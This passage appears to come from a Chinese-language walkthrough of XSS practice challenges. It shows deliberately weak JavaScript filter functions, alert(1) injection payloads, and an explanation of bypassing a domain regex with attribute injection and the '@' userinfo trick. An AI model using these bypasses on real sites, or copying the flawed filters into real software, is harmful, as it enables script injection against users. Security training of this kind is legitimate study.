 ```html
</style
><script>alert(1)</script>
```



#### 0x09

```php
function render (input) {
  let domainRe = /^https?:\/\/www\.segmentfault\.com/
  if (domainRe.test(input)) {
    return `<script src="${input}"></script>`
  }
  return 'Invalid URL'
}
```

同样的正则的过滤不太完全,只是匹配以https.....................开头的不管后面的

```html
http://www.segmentfault.com" onload="alert(1)"
```

#### 0x0A

```php
function render (input) {
  function escapeHtml(s) {
    return s.replace(/&/g, '&amp;')
            .replace(/'/g, '&#39;')
            .replace(/"/g, '&quot;')
            .replace(/</g, '&lt;')
            .replace(/>/g, '&gt;')
            .replace(/\//g, '&#x2f')
  }

  const domainRe = /^https?:\/\/www\.segmentfault\.com/
  if (domainRe.test(input)) {
    return `<script src="${escapeHtml(input)}"></script>`
  }
  return 'Invalid URL'
}
```

这个的过滤就比较好了,过滤了很多特殊字符

但是我们可以使用https://...........@www.baidu.com这种链接,这个链接的效果是跳转到www.baidu.com前面的东西作为参数



#### 0x0B

```php
function render (input) {
  input = input.toUpperCase()
  return `<h1>${input}</h1>`
}
```
